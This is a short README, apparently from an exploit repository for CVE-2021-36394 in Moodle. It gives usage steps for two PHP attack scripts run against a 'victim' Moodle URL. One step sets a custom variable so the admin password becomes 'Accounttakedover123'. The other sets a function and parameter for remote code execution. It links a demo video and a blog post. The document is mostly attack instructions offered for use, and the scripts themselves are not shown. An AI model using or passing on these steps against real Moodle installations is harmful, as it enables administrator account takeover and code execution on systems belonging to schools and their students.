 # CVE-2021-36394


## Update table or Change password Admin: 

Custom Code
`
$newpassword = "Accounttakedover123";
`
Then Execute:


`
$ CVE2021-36394.php http://victim/path_to_moodle
`

## Execute function
Custom Code
`$function = "header";
$param = "Hacked: by0d0ff9";
`

Then Execute:

`
$ CVE2021-36394_RCE.php http://victim/path_to_moodle
`

### Demo: https://www.youtube.com/watch?v=rn4ENyASWe8
### Blog: https://0xd0ff9.wordpress.com/2021/08/28/cve-2021-36394-hack-truong-sua-diem-cac-kieu/
